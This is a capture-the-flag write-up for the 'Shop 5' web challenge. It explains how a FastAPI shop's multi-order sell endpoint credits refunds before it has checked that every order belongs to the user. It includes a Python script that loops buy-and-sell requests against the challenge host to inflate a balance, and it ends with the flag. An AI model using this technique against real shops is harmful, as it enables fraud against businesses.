









# Shop 5 writeup
###### Author/Solved by: Tinius
###### Team: Datasnok

## Challenge description
```text
Shop 5 
by null

It appears that PHP was not the solution after all, so we switched to the much
more modern and secure Python language.
Fortunatly, using modern frameworks also guarantees that our application is fully secure!

If you should manage, somehow to buy the new exclusive EPT fidget toy merchandise,
you can claim 5 physical instances at the admin booth after you have bought the
toy in the shop and submitted the flag on the platform!
```

## Initial thoughts
The difference from shop 4 to shop 5 is that you can sell multiple items at once:


The request when selling an item:


This tells me that I should take a closer look at how we can refund the items since it is the only noticeable difference.

## Looking at the code
```python
@app.post("/orders")
async def sell(request: Request, session: SessionDep, order_ids: list[int] = Form(...)):
    user, _ = get_user(request, session)
    if not user:
        return RedirectResponse(url="/login?error=Please log in to sell items", status_code=303)
    order_ids = list(set(order_ids))
    for sell_order in list(stream_sell_orders(session, [session.get(Order, order_id) for order_id in order_ids])):
        if not sell_order(user):
            return await orders(request, error="Failed to sell all orders", session=session)

    return await orders(request, success="Items sold successfully", session=session)
```
We can see that we create a generator with `stream_sell_orders` and then we iterate over it. This means that we can return multiple functions that can be called later on. This is a very interesting approach and I have not seen this before.
```python
def stream_sell_orders(session: Session, orders: list[Order]):
    for order in orders:

        def sell_order(user: User):
            if not order or order.user_id != user.id:
                return False
            item = session.get(Item, order.item_id)
            user.balance += item.price
            session.delete(order)
            session.commit()
            return True

        yield sell_order
```
This is some muffins, because why would you code it like this and not something simpler and better. 

At first I tried to sell the same item twice:

Which gives:


We can see that we sold one item and got the money back. But only for one item.

## Why it is insecure
The code is insecure because it only checks each order individually. If you send an order that belongs to someone else first, the sell_order might process it incorrectly before checking your own orders. This can let you add money from another user’s item to your balance. There's no proper transaction handling to ensure all orders belong to you before making any changes. As a result, you can manipulate the order of requests to exploit the system and gain unauthorized funds.

## Exploiting

1. Create a second user and buy an item.
### Snok2 user:


### Snok1 user:


We can see that Snok1 has an item with id 1 so lets sell that first in the list from Snok2

As snok2:



Now we can see the balance of snok2 increased by 99.99



## Automating
Doing that a gazillion times to get 2500 is not fun so lets automate it:

```python
import requests

base_url = "https://datasnok-ec5c-shop-5.ept.gg/"

cookies = {
    'token': 'ac0eec4beab1b5d08ed174ce2929e4be',
}


def buy_item(item_id: int):
    response = requests.post(base_url, cookies=cookies, data={"item_id": item_id})
    if response.status_code == 200:
        print("Item purchased successfully")
    else:
        print("Failed to purchase item")


def sell_item():
    data = [
        ('order_ids', '1'),
        ('order_ids', '2'),
    ]
    requests.post(base_url+'orders', cookies=cookies, data=data)


for x in range(40):
    buy_item(1)
    sell_item()

```
After running the script we have enough money to buy the flag:


## Flag



```text
EPT{G0in6_1n_l0ops_to0_f45t_m4k3s_m3_d1zzy}
```